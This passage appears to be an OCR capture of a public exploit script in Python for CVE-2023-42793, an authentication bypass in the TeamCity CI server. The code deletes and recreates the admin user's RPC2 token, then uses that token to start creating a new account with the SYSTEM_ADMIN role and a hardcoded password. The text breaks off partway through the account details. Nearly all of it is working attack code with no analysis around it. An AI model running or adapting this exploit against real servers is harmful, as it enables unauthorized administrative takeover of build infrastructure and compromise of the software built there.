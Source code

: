 ```python
class CVE_2023_42793:
    def __init__(self):
        self.url = ""
        self.session = requests.session()

    def username(self):
        name = "H454NSec"
        random_id = random.randint(1000, 9999)
        return f"{name}{random_id}"

    def delete_user_token(self, url):
        self.url = url
        headers = {
            "User-Agent": "Mozilla/5.0 (https://github.com/H454NSec/CVE-2023-42793) Gecko/20100101 Firefox/113.0",
            "Content-Type": "application/x-www-form-urlencoded",
            "Accept-Encoding": "gzip, deflate"
            }
        try:
            response = self.session.delete(f"{self.url}/app/rest/users/id:1/tokens/RPC2", headers=headers, timeout=10)
            if response.status_code == 204 or  response.status_code == 404:
                self.create_user_token()
        except Exception as err:
            pass

    def create_user_token(self):
        headers = {
            "User-Agent": "Mozilla/5.0 (https://github.com/H454NSec/CVE-2023-42793) Gecko/20100101 Firefox/113.0",
            "Accept-Encoding": "gzip, deflate"
            }
        try:
            response = self.session.post(f"{self.url}/app/rest/users/id:1/tokens/RPC2", headers=headers, timeout=10)
            if response.status_code == 200:
                response_text = response.text
                root = ET.fromstring(response_text)
                value = root.get('value')
                if value.startswith("eyJ0eXAiOiAiVENWMiJ9"):
                    self.create_user(value)
        except Exception as err:
            pass

    def create_user(self, token):
        uname = self.username()
        headers = {
            "User-Agent": "Mozilla/5.0 (https://github.com/H454NSec/CVE-2023-42793) Gecko/20100101 Firefox/113.0",
            "Accept": "*/*",
            "Authorization": f"Bearer {token}",
            "Content-Type": "application/json",
            }
        creds = {
            "email": "",
            "username": uname,
            "password": "@H454NSec",
            "roles": {
                "role": [{
                        "roleId": "SYSTEM_ADMIN",
                        "scope": "g"
                    }]
            }
```